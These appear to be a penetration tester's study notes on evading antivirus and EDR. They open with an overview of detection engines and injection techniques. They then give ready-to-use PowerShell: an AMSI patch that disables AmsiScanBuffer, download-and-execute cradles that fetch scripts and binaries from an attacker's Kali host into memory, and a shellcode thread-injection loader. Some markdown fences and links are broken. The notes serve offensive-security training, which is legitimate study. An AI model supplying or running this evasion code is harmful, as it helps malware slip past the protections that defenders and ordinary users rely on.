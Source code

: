 ```yaml
---
layout: blank
pagetitle: Antivirus Evasion
---
```


## EDRs
- 7 general components:
    - File Engine
    - Memory Engine
    - Network Engine
    - Disassembler
    - Emulator/Sandbox
    - Browser Plugin
    - Machine Learning Engine
- Detection methods:
    - Signature
        - Hash the malware. If it matches, it's a virus
    - Heuristic
        - Achieved by stepping through instruction set of a binary file and searching for patterns
    - Behavioral
        - Execute the file in an emulated environment and watching for suspicious actions
    - Machine Learning

## Bypassing Detection

**On-disk Evasion**
- Obfuscators can be marginally effective
- _Crypter_ cryptographically alters code and only decrypts in memory
    - Encryption is one of the most effective AV evasion techniques
- Anti-reversing, Anti-debugging, VM detection
- Software protectors like _Anti-copy_
- _The Enigma Protector_ can successfully bypass antiviruses 

**In-Memory Evasion**
- Injecting into the memory of another process
    - Use OpenProcess to obtain a valid HANDLE
    - Use VirtualAllocEx to allocate memory in the context of the process with that HANDLE
    - After memory allocated, copy the malicious payload to the new allocate dmemory
- DLL Injection
    - Loads a malicious DLL from disk using LoadLibrary API
        - LoadLibrary must load DLL from disk
    - Reflective DLL injection
        - Loads a DLL stored by attacker into process memory
- Process Hollowing
    - Launch non-malicious process in suspended state
    - Remove process image and replace with malicious executable image
    - Resume process
- Inline hooking
    - Modify memory to introduce a hook into malicious code, returning back to original point after execution

## Evasion in Practice
- Use AntiScan.me to test malware if target AV vendor is unknown, which doesn't submit samples to third-parties
- DISABLE AUTOMATIC SAMPLE SUBMISSION TO TEST ON DEFENDER
- **Thread Injection**
    - Powershell scripts can be really difficult to fingerprint, so changing things like variable names can actually help
        - If running scripts is disabled, use `-ExecutionPolicy Bypass` flag or `Set-ExecutionPolicy -ExecutionPolicy Unrestricted CurrentUser`
        - LMFAO
    - Example in Offsec:
        - Used a well-known memory injection PowerShell script, using msfvenom shellcode as the payload
        - Changed variable names and bypassed Avira antivirus
- **Automating AV evasion**
    - _Shellter_ is a popular shellcode injection tool capable of bypassing antivirus software
        - `sudo apt install shellter`
        - Best to inject into a non-well known process
        - Can use Meterpreter payloads
- DLL injection without touching disk
    - Share the DLL remotely with `sudo impacket-smbserver share ./`

## AMSI
- [Anti-Malware Scanning Interface](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)
- Can be bypassed using a number of tricks, but the scripts are all recognized by AMSI
    - Techniques here: [https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
    - Thus, we'll need to find the trigger and change the signature with variable renaming, function replacement, or encoding at runtime
        - Can also use ISESteroids or [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
    - [amsi.fail](https://amsi.fail/) - Great site for generating obfuscated powershell scripts that break/disable AMSI for current process
    - However, this won't bypass AMSI at the .net level - [https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/]https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/
        - Thus, we also need the following script to bypass AMSI at the .net level (run with `(new-object system.net.webclient).downloadstring('http://{kali_ip:port}/amsi_rmouse.txt')|IEX`)
            - This loads and executes the script directly in memory

```
# Patching amsi.dll AmsiScanBuffer by rasta-mouse
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

- We now have the ability to run anything we'd like, as long as it doesn't touch disk, which can be done like so:

```
$data=(New-Object System.Net.WebClient).DownloadData('http://{kali_IP:port}/{exe_binary}');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);
[{binary_name}.Program]::Main("");[Console]::SetOut($out);$sWriter.ToString()

## Thread Injection
- Operates within the process it's being executed from
- Rename the variables to bypass string detection

```

# Import VirtualAlloc to allocate memory
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

# Import CreateThreat to create execution threads
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

# Import memset to write arbitrary data to allocated memory
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```